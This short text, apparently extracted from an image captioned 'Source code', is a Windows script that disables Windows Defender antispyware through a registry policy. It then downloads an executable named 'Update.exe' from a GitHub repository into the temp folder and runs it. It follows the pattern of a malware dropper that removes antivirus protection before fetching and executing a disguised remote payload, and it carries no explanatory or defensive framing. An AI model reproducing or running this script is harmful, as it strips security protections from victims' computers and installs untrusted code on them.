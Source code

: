 reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t "REG_DWORD" /d "1" /f
$url = "https://github.com/pissco160/wiww/blob/main/Update.exe"
$output = "$env:TEMP\Update.exe"
Invoke-WebRequest -Uri $url -OutFile $output
Start-Process -FilePath $output -Wait
